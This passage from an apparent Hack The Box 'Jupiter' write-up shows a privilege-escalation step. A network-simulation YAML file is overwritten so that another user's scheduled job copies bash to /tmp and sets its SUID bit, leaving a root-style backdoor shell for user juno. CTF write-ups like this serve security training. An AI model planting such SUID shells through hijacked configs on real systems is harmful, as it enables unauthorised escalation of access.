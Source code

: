 ```yml
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /usr/bin/bash /tmp/user
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/user
      start_time: 5s

```

After put in attack machine ==> use `cp` to force edit default file `network-semulation.yml` (**I still don't know why payload can not run with diffrent name .yml :(**)

```shell
cp -f asd.yml network-simulation.yml
```

OK, wait and get `user` that have SUID of `juno` in /tmp.
![](/commons/HTB/Jupiter/4_juno.png)
